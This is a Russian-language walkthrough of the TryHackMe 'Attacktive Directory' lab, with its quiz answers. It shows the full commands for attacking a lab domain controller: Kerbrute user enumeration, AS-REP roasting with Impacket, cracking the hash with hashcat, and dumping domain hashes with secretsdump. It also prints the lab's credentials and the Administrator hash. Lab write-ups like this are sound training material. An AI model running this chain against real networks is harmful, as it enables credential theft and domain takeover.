# Attacktive Directory

> Полное прохождение лаборатории. Материал содержит спойлеры и предназначен только для легальной учебной практики.

**Лаборатория:** [открыть комнату на TryHackMe](https://tryhackme.com/room/attacktivedirectory)

## Ход работы

Привет! Начнем!

Развернем виртуальную машину. Как обычно начинаем со сканирования nmap:

```bash
nmap -sV <ip>
```



По анализу портов можно сделать вывод, что это контроллер домена.

Первый вопрос звучит так: «Какой инструмент позволит нам просканировать порт 139/445 ?».

Эти порты по умолчанию используются SMB. Для этого протокола можем использовать утилиту enum4linux. Enum4linux — утилита, которая использует инструменты из пакета Samba для сбора информации о компьютерах с общими ресурсами SMB. С её помощью можно автоматизировать процесс перечисления.

What tool will allow us to enumerate port 139/445? -  enum4linux

Оригинальная версия enum4linux давно не поддерживается. Для новых систем настоятельно рекомендуется использовать enum4linux-ng (python3, лучшая совместимость с современными Windows/Samba). Синтаксис почти идентичен.

- enum4linux-ng -A <ip>









Доменное NetBIOS имя найдем в выводе утилиты enum4linux:



What is the NetBIOS-Domain Name of the machine? - THM-AD



What invalid TLD do people commonly use for their Active Directory Domain? - .local

Двигаемся дальше. «Какая команда в Kerbrute позволит нам перечислять действительные имена пользователей?». Kerbrute — инструмент для проведения разведки и атак на Kerberos-аутентификацию. Он позволяет искать действующие логины, тестировать пароли и выполнять Kerberoasting-атаки без необходимости быть доменным пользователем.

Обратимся к справке утилиты Kerbrute:

```bash
kerbrute -h
```



What command within Kerbrute will allow us to enumerate valid usernames? - userenum

Добавим ip-адрес нашей развернутой машины и домен в файл /etc/hosts. Это нужно для правильной работы утилиты Kerbrute:

```bash
echo <ip> spookysec.local >> /etc/hosts
```

Скачиваем на нашу машину словари пользователей и паролей, ссылки на которые даны нам в задании. Для этого используем команду wget:





Теперь используем Kerbrute для перечисления пользователей:

```bash
kerbrute userenum -d spookysec.local --dc spookysec.local ~/userlist.txt
```



Запишем валидных пользователей в отдельный файл valid_usernames.txt. Из всех найденных пользователей для ответов нам подошли “svc-admin” и “backup”.

What notable account is discovered? (These should jump out at you) - svc-admin

What is the other notable account is discovered? (These should jump out at you) - backup

Теперь, имея список действительных учетных записей, мы можем попытаться воспользоваться уязвимостью с помощью метода атаки под названием ASREPRoasting. ASReproasting применяется, когда для учетной записи пользователя установлена привилегия «Не требует предварительной аутентификации». Это означает, что учетной записи не нужно предоставлять действительные идентификационные данные перед запросом билета Kerberos для указанной учетной записи пользователя.

[В Impacket](https://github.com/SecureAuthCorp/impacket) есть инструмент под названием GetNPUsers.py, который позволяет запрашивать учетные записи ASReproastable из Центра распространения ключей (KDC). Единственное, что нужно для запроса учетных записей — это действительный набор имен пользователей, которые мы ранее определили с помощью Kerbrute:

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py spookysec.local/ -usersfile ~/valid_usernames.txt
```



Нам удалось вытащить хэш-значение.

We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password? - svc-admin

Найдем на странице [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) вид нашего хэша:



Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name) - Kerberos 5 AS-REP etype 23



What mode is the hash?  - 18200

Сохраним хэш в файле hash.txt для его расшифровки утилитой hashcat. Запустим ее со списком паролей passwordlist.txt, который мы скачали из задания:

```bash
hashcat -m 18200 hash.txt passwordlist.txt
```



Now crack the hash with the modified password list provided, what is the user accounts password? - management2005

What utility can we use to map remote SMB shares? - smbclient



Which option will list shares?  -  -L

Используем команду для перечисления доступных ресурсов пользователя svc-admin на сервере:

```bash
smbclient -L <ip> -U svc-admin
```



How many remote shares is the server listing?  - 6

К ресурсам, у которых на конце знак $, доступа у нас нет, так как таким знаком обозначаются скрытые ресурсы, для доступа к которым требуются права администратора. В папке backup найдем текстовый файл:



There is one particular share that we have access to that contains a text file. Which share is it?  - backup

Откроем его:



What is the content of the file?  - YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

Декодируем из base64 и получаем реквизиты:



Decoding the contents of the file, what is the full contents?  - [backup@spookysec.local](mailto:backup@spookysec.local):backup2517860

Теперь, когда у нас есть новые учетные данные, у нас может быть больше привилегий в системе, чем раньше. Имя пользователя «backup» наводит на размышления. Для чего нужна эта резервная учетная запись?

Это резервная учетная запись для контроллера домена. У этой учетной записи есть уникальное разрешение, которое позволяет синхронизировать все изменения в Active Directory с этой учетной записью пользователя. Это касается и хэшей паролей.

Зная это, мы можем воспользоваться другим инструментом Impacket под названием secretsdump.py. Он позволит нам получить все хеши паролей, которые есть у этой учетной записи пользователя (синхронизированной с контроллером домена). Таким образом, мы получим полный контроль над доменом AD. Используем следующую команду:

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@<ip>
```



Из полученной информации найдем ответ на следующий вопрос:



What method allowed us to dump NTDS.DIT?  - DRSUAPI



What is the Administrators NTLM hash?  - 0e0363213e37b94221497260b0bcb4fc

Pass the hash — это техника атаки, при которой злоумышленник использует NTLM-хэш пароля вместо самого пароля для аутентификации в Windows-сетях. Смысл в том, что пароль в открытом виде знать не нужно: достаточно украденного хэша, чтобы входить в другие системы под тем же пользователем.

What method of attack could allow us to authenticate as the user without the password?  - Pass The Hash

